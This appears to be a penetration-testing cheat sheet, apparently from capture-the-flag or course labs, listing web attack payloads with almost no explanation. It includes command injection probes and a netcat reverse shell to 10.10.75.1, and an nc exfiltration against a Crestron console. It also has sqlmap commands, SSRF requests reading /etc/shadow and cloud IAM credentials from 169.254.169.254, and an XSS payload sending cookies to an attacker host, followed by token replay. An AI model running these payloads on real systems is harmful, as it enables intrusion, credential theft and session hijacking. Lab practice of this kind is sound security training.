 ## Command Injection
### Examples to find command injection vulnerability
	-h
	PARAM; echo Injected 
	echo Injected|
	PARAM | echo Injected 
	PARAM || echo Injected 
	PARAM & echo Injected 
	PARAM && echo Injected
	$(echo Injected)
	\`echo Injected\`
	>(Echo Injected)
	Josh;id #
### Exploitation
nc -nlvvvp 11111
127.0.0.1 && nc -e /bin/sh 10.10.75.1 11111

### Creston DGE-100 attack against DGE-100 Control Console 
nc -nlvp 8080
nc 10.10.10.1 41795 
ping $(echo "$(id)" | /system/xbin/nc 192.168.1.1 8080) 

## SQL injection
% = * 

' or '1'='1

### SQLMAP 
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin"
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" --dbs
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" -D web_app --tables

## SSRF and IMDS
### SSRF 
GET  /user?profile=file:///etc/shadow 
GET  /user?profile=https://server2/me.jpg 
curl -v "http://login.falsimentis.com/imgget.php?logo=file:///etc/hosts"
### IMDS
http://169.254.169.254
http://169.254.169.254/latest/user-data

### SSRF IDMS Attack
file:///etc/passwd
curl http://intern.falsimentis.com/images/Drew.jpg 

file:///var/www/html/index.html
	curl --silent http://intern.falsimentis.com/images/Drew.jpg | grep -iE "user|pass"

http://169.254.169.254/latest/meta-data/iam/info
	curl --silent http://intern.falsimentis.com/images/Drew.jpg | jq

http://169.254.169.254/latest/meta-data/iam/security-credentials/falsimentis-deploy-role/
	curl --silent http://intern.falsimentis.com/images/Drew.jpg | jq


## XSS 
### CookieStealer
try with hello <hr> <hr> <hr> 
use cookiecutter 
	php -S 0.0.0.0:2222
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>
jq "." cookies.log
curl -b authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb "http://www.rookaviary.com/admin.php"
#### USE TUN0 for COOKIE STEALING IN CTF 
### Or Via Browser in Console 
	document.cookie="authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb"